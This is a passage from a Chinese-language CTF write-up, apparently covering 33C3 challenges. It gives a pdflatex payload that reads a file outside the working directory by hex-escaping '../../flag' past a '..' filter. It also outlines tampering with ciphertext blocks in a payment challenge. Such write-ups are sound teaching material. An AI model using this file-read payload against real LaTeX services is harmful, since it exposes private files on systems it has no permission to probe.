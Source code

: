 ## 读文件方式 ##

除了编写md格式执行命令以外，事实上还有更多办法来读取文件获取flag，也许你觉得文件名未知，我们没办法来读取flag，但也许你忘记了`../../flag`这里还有一个flag。

核心问题在于如何绕过..的过滤

在pdflatex语法中，可以用`^^2e^^2e^^2f^^2e^^2e^^2f^^66^^6c^^61^^67 `来代替``../../flag``，那么脚本如下

```
payload = """
\documentclass{article}
\\begin{document}
Hello world, this is \LaTeX
\\newwrite\outfile
\openout\outfile=out.log
\\newread\\file
\openin\\file=^^2e^^2e^^2f^^2e^^2e^^2f^^66^^6c^^61^^67
\\read\\file to\\fileline
\write\outfile{\\fileline}
\closein\\file
\closeout\outfile
\end{document}
\q
"""
```

编译读取既可

# pay2win #

```
pay2win – Web
Do you have enough money to buy the flag?
```

整个题目做起来很难受，做了感觉非常像是强行出题...

首先进去我们发现能够购买cheap和flag两个，需要输入一个合理的信用卡号，网上随便找一个信用卡就可以购买cheap，但购买flag时候，就会显示额度不够，然后，这时候理所当然的以为要找个额度大于20万的信用卡号，于是研究了一夜的信用卡种类...

但仔细想可以想到，主办方应该是没有办法判断信用卡的额度的，所以重新审视题目，我们发现如果购买成功的话，data的数据块会发生变化

![image_1b5a4fdv5nso1euk4171vh61sk69.png-352.1kB][1]

我们发现按照刚好可以8bit一分，然后购买成功后，中间的部分会发生变化

反复修改可以找到所谓储存文件名的部分，修改那部分getflag。


# list0r #

ctftime上有2篇文章还是蛮不错的。

[https://dollberg.xyz/ctf/2016/12/29/33C3-CTF-list0r/](https://dollberg.xyz/ctf/2016/12/29/33C3-CTF-list0r/)


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/xcr4ueiusbgkotwnkacer1ye/image_1b5a4fdv5nso1euk4171vh61sk69.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dlkrbrj0231150ibg9x75dkf/image_1b5f9kuqrqaqq4pdolislj9tm.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/roqgxrzbm5g5e8ty0z6ei8vv/image_1b5f9mhh41hvf13b0jgq19sv14tc13.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/wms809g28pe6nmr4n4fgfw8d/image_1b5fa0r9f1tl385i1qc3nj6o2d1g.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cd10qwc9x8sbnttjsp0zumge/image_1b5fb5vmq16toguhf5c1t1m1g121t.png